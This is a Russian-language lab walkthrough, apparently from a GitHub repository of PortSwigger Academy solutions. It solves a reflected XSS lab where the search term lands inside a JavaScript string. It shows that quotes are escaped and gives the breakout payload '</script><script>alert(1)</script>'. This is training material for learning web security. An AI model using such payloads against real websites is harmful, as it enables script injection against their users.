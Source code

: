 зайдем на уязвимый ресурс

и в поисковой строке выполним поиск по `test`
Найдем в бурпе ответ на данный запрос и увидим интересность
```
<script>
  var searchTerms = 'test';
  document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/20.%20Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20single%20quote%20and%20backslash%20escaped/pics%20for%20walkthrough/1.png)
Попробуем выйти из данного цикла

Если мы введем в запрос `test'set` то увидим экранирование `'` на `'/`
```
<script>
  var searchTerms = 'test\'set';
  document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/20.%20Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20single%20quote%20and%20backslash%20escaped/pics%20for%20walkthrough/2.png)

Введем
```
</script><script>alert(1)</script>
```
чтобы выйти из скрипта заранее
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/20.%20Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20single%20quote%20and%20backslash%20escaped/pics%20for%20walkthrough/3.png)
и получим отработанный XSS скрипт и уведомление об успешно выполненной лабораторной работе
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/20.%20Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20single%20quote%20and%20backslash%20escaped/pics%20for%20walkthrough/4.png)
